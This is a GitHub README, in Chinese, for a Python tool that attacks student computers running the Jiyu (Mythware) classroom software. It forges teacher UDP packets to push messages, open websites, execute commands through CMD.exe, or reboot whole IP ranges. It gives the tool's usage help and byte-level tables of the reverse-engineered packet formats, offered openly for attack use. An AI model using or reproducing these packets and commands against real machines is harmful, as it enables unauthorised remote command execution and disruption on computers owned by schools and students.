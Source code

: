 # Jiyu_udp_attack

[![GitHub release](https://img.shields.io/github/release/weilycoder/Jiyu_udp_attack.svg)](https://github.com/weilycoder/Jiyu_udp_attack/releases/latest)

利用极域电子教室的 udp 包攻击学生机。

对这方面技术的了解来自 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/)。

## Environment

项目的 Python 为 3.13，即使经 PyInstaller 打包也对 Win 7 系统不太友好。未来可能向下兼容。

此外，为了移除 scapy 依赖，项目使用原始套接字进行请求，在大部分系统上可能需要管理员权限。

## Usage

你可以从 Python 导入 `Jiyu_udp_attack` 模块，也可以使用命令行 `python Jiyu_udp_attack`。

使用 `python Jiyu_udp_attack -h` 来获取帮助信息：

```
usage: Jiyu_udp_attack [-h] -s TEACHER_IP [-f TEACHER_PORT] -t TARGET [-p PORT] [-i IP_ID] (-m MESSAGE | -w WEBSITE | -c COMMAND | -r [timeout [message] ...])

Jiyu Attack Script

options:
  -h, --help            show this help message and exit
  -s, --teacher-ip TEACHER_IP
                        Teacher's IP address
  -f, --teacher-port TEACHER_PORT
                        Teacher's port (default to random port)
  -t, --target TARGET   Target IP address
  -p, --port PORT       Port to send packets to (default: 4705)
  -i, --ip-id IP_ID     IP ID for the packet (default: random ID)
  -m, --message MESSAGE
                        Message to send
  -w, --website WEBSITE
                        Website URL to ask to open
  -c, --command COMMAND
                        Command to execute on the target
  -r, --reboot [timeout [message] ...]
                        Reboot the target machine, optionally with a timeout and message

Github Repositories: https://github.com/weilycoder/Jiyu_udp_attack/tree/main/
```

其中目标 ip 的指定使用了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/) 的创意，可以：

+ 指定具体 ip，如 `192.168.3.103`；
+ 指定 ip 范围，如 `192.168.3.100-150`；
+ 指定 ip 段，如 `192.168.3.0/24`。

最多指定 65536 个不同 ip。

## Jiyu API

记录抓包得到的极域 udp 包格式。

不记录包头信息，只记录 Data 格式。

子标题名是我自己起的。

### Message

用于教师端向学生端发送信息。

Data 区长 $954$。

| 长度  |                            内容                            |
| :---: | :--------------------------------------------------------: |
| $12$  |                 `444d4f43000001009e030000`                 |
| $16$  |                        随机二进制串                        |
| $28$  | `204e0000c0a86c019103000091030000000800000000000005000000` |
| $800$ |               信息内容，使用 `utf-16le` 编码               |
| $98$  |                  全 $0$ 段，可能是保留区                   |

### Execute

用于教师端在学生端远程执行命令。

Data 区长 $906$。

| 长度  |                             内容                             |
| :---: | :----------------------------------------------------------: |
| $12$  |                  `444d4f43000001006e030000`                  |
| $16$  |                         随机二进制串                         |
| $32$  | `204e0000c0a8e901610300006103000000020000000000000f00000001000000` |
| $512$ |             可执行程序位置，使用 `utf-16le` 编码             |
| $254$ |                执行参数，使用 `utf-16le` 编码                |
| $66$  |                          全 $0$ 段                           |
|  $1$  |       正常启动 `00`；最小化启动 `01`；最大化启动 `02`        |
| $13$  |                 `00000001000000000000000000`                 |

另外，脚本的 `-c` 功能实际上是使用参数 `f'/D /C "{args.command}"'` 打开程序 `CMD.exe`，这里参数使用 Python 的字符串格式化语法表示。

### Website

用于教师端在学生端远程打开网站。

Data 区变长，至少 $64$ 个字节。

|      长度       |                内容                |
| :-------------: | :--------------------------------: |
|       $8$       |         `444d4f4300000100`         |
|       $4$       |   $\mathrm{size}+36$，小端序编码   |
|      $16$       |            随机二进制串            |
|       $8$       |         `204e0000c0a8e901`         |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|      $16$       | `00020000000000001800000000000000` |
| $\mathrm{size}$ |     网址，使用 `utf-16le` 编码     |
|       $4$       |             全 $0$ 段              |

### Reboot

Data 区长 $582$。

| 长度  |                           内容                           |
| :---: | :------------------------------------------------------: |
| $12$  |                `444d4f43000001002a020000`                |
| $16$  |                       随机二进制串                       |
| $27$  | `204e0000c0a8e9011d0200001d0200000002000000000000130000` |
|  $1$  |               立即重启 `01`；应用超时 `00`               |
|  $4$  |                   超时时间，小端序编码                   |
|  $8$  |                    `0100000000000000`                    |
| $256$ |                提示信息，`utf-16le` 编码                 |
| $258$ |                        全 $0$ 段                         |

## License

MIT 协议。
